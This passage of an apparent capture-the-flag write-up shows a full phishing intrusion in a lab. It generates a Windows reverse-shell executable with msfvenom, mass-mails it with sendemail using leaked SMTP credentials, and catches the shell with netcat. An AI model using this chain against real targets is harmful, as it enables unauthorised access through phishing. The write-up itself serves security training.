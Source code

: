 ```
┌──(kali㉿kali)-[~/Desktop/You got mail]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.23.106.242 LPORT=4444 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

```

## Emailing the Reverse Shell Payload

I automated sending the reverse shell executable as an attachment to each developer's email address using the `sendemail` CLI tool in a loop:

```bash
┌──(kali㉿kali)-[~/Desktop/You got mail]
└─$ while IFS= read -r email; do
  sendemail -f "lhedvig@brownbrick.co" \
            -t "$email" \
            -u "test" \
            -m "test" \
            -a shell.exe \
            -s 10.10.189.66:25 \
            -xu "lhedvig@brownbrick.co" \
            -xp "bricks"
done < emails.txt
Jun 01 15:22:09 kali sendemail[66466]: Email was sent successfully!
Jun 01 15:22:10 kali sendemail[66475]: Email was sent successfully!
Jun 01 15:22:11 kali sendemail[66484]: Email was sent successfully!
Jun 01 15:22:12 kali sendemail[66493]: Email was sent successfully!
Jun 01 15:22:13 kali sendemail[66502]: Email was sent successfully!
Jun 01 15:22:13 kali sendemail[66503]: Email was sent successfully!
```
This leveraged the SMTP server to deliver the payload to multiple recipients.

## Catching the Reverse Shell

I set up a Netcat listener on my machine:

```bash
nc -nvlp 4444
```
Soon after sending the malicious emails, I received an incoming connection from the target:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.23.106.242] from (UNKNOWN) [10.10.189.66] 49715
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Mail\Attachments>
```
